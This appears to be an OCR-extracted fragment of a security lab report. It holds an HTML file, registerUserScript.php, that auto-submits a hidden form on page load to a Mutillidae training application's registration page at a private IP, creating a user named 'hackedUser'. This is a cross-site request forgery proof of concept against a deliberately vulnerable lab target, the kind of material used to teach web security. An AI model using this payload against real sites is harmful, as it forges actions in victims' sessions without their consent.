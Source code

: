![](./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.010.jpeg)

Code

registerUserScript.php

```
  <html>
  
  <body>
  
  <form id="registerUserFrom" method="post" action="http://192.168.1.41/mutillidae/index.php?page=register.php"> <input name="csrf-token" value="" />
  
  <input name="username" value="hackedUser"/>
  
  <input name="password" value="hackedUser"/>
  
  <input name="confirm\_password" value="hackedUser"/>
  
  <textarea name="my\_signature" value="created from registerUserScript">hackedUser</textarea>
  
  <input name="register-php-submit-button" value="Save Blog Entry"/> </form>
  
  <script>
  
  document.addEventListener('DOMContentLoaded', function() { document.getElementById('registerUserFrom').submit();
  
  }, false);
  
  </script>
  
  </body>
  
  </html>

```